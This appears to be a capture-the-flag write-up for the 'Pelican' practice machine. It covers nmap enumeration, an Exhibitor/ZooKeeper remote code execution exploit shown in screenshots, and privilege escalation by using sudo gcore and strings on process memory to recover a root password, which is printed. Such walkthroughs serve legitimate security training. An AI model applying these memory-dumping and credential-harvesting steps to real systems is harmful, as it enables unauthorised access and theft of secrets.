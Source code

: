 ```yaml
---
title: Pelican Write up
date: 2023-12-1 12:00:00 -500
categories: [writeup]
tags: [pelican,craft,dvr4]
# TAGS should always be lowercase
---
```


# Welcome 

## Hello and welcome to my Pelican Write-up from PG practice.


Let's start with some enumeration.



<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">└─$ sudo nmap -sSVC -A -Pn -T4 -oA nmap 192.168.164.98</span>
</div>


Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-16 09:20 EST
Nmap scan report for 192.168.164.98 (192.168.164.98)
Host is up (0.13s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
>22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)

>139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
>445/tcp  open  etbios-p  Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)

>631/tcp  open  ipp         CUPS 2.2
|_http-server-header: CUPS/2.2 IPP/2.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-title: Forbidden - CUPS v2.2.

>2222/tcp open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)

>8080/tcp open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)

><span style="color:purple;">8081/tcp open  http        nginx 1.14.2</span>
|_http-title: Did not follow redirect to http://192.168.164.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2



<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">└─$ sudo nmap -p- --min-rate=5000 192.168.164.98</span>
</div>
<br>


![image 1](https://raw.githubusercontent.com/thehunt1s0n/media/main/image1.png)



<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">└─$ sudo nmap -sU --min-rate=10000 192.168.164.98</span>
</div>
<br>

![image 2](https://raw.githubusercontent.com/thehunt1s0n/media/main/image2.png)

## Initial Foothold

This machine's ssh and samba versions are not vulnerable. Also there is nothing to be found on port 8080.

Let's visit the web app running on port 8081

http://192.168.164.98:8081


![image 3](https://raw.githubusercontent.com/thehunt1s0n/media/main/image3.png)


We get redirected to http://192.168.164.98:8080/exhibitor/v1/ui/index.html

I searched in google for the zookeeper exploit then I found this:

https://www.exploit-db.com/exploits/48654



![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/image8.png)

To exploit the vulnerability we need to follow these steps:

Config:

![image 4](https://raw.githubusercontent.com/thehunt1s0n/media/main/image4.png)


Enable Editing

![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/image5.png)

Edit the script

![image 6](https://raw.githubusercontent.com/thehunt1s0n/media/main/image6.png)


![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/image7.png)


### <span style="color:green">2nd Method



![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/image9.png)





## Privilege Escalation

Using linpeas I found:

![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/image10.png)


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> sudo -l</span>
</div>
<br>


![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/image11.png)

It seems like we can run /usr/bin/gcore without a password as charles.

![gif 1](https://raw.githubusercontent.com/thehunt1s0n/media/main/heheboy.gif)

><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">It can be used to generate core dumps of running processes. Such files often contains sensitive information such as open files content, cryptographic keys, passwords, etc. This command produces a binary file named core.$PID, that is then often filtered with strings to narrow down relevant information.


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> ps -ef | grep ssh</span>
</div>
<br>

![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/image13.png)

<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> sudo gcore 526</span>
</div>
<br>

<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> strings core.526</span>
</div>
<br>

I got lots of output but nothing interesting. Then I tried with password instead of ssh


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:/opt/zookeeper$<span style="color:red"> ps -ef | grep pass</span>
</div>
<br>

![image 13](https://raw.githubusercontent.com/thehunt1s0n/media/main/image13.png)


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:/opt/zookeeper$<span style="color:red"> sudo gcore 493</span>
</div>
<br>

<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> strings core.493</span>
</div>
<br>


![image 15](https://raw.githubusercontent.com/thehunt1s0n/media/main/image15.png)

Interesting! We found a password.

![image 14](https://raw.githubusercontent.com/thehunt1s0n/media/main/image14.png)


<div style="background-color: #1e2124; padding: 10px;">
>harles@pelican:~$<span style="color:red"> su</span>
</div>
<br>

ClogKingpinInning731


<div style="background-color: #1e2124; padding: 10px;">
root@pelican:/home/charles#<span style="color:red"> cat /root/proof.txt && whoami && hostname && ip a</span>
</div>
<br>


![image 16](https://raw.githubusercontent.com/thehunt1s0n/media/main/image16.png)



<div style="background-color: #1e2124; padding: 10px;">
root@pelican:/home/charles#<span style="color:red"> cat /home/charles/local.txt && whoami && hostname && ip a</span>
</div>
<br>



![image 17](https://raw.githubusercontent.com/thehunt1s0n/media/main/image17.png)


pwned :)


